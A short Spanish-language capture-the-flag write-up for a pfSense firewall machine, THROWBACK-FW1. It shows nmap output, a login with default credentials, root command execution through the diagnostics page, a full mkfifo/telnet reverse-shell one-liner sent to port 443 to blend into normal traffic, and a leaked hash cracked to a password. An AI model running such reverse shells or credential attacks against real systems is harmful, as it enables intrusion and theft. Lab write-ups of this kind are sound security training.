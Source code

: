 # THROWBACK-FW1

## Initial Scan
```
22/tcp  open  ssh      OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|_  256 e8:75:f3:79:a4:dd:f3:25:9b:2b:33:54:dc:86:59:af (ED25519)
53/tcp  open  domain   (generic dns response: REFUSED)
80/tcp  open  http     nginx
|_http-title: Did not follow redirect to https://10.200.27.138/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/http nginx
|_http-title: pfSense - Login
| ssl-cert: Subject: commonName=pfSense-5f099cf870c18/organizationName=pfSense webConfigurator Self-Signed Certificate
| Subject Alternative Name: DNS:pfSense-5f099cf870c18
| Not valid before: 2020-07-11T11:05:28
|_Not valid after:  2021-08-13T11:05:28
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|_  http/1.1
| tls-nextprotoneg: 
|   h2
|_  http/1.1
```
## Enum
### Web Server
Las creds por defecto de pfsense funcionan para entrar

## Exploit
En el endpoint de diagnostics podemos ejecutar comandos en el sistema, si ejecutamos id veremos que es nuestro dia de suerte
```
uid=0(root) gid=0(wheel) groups=0(wheel)
```
Spawneamos una reverse shell, vamos a usar sobre todo puertos comunes para las reverse shell al fin de no crear trafico muy sospechoso en ele firewall
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet IP 443 > /tmp/f
```

## Post Explotation
### Login.log
```
Last Login 8/9/2020 15:51 -- HumphreyW:1c13639dba96c7b53d26f7d00956a364
```
Crackeamos la pass securitycenter



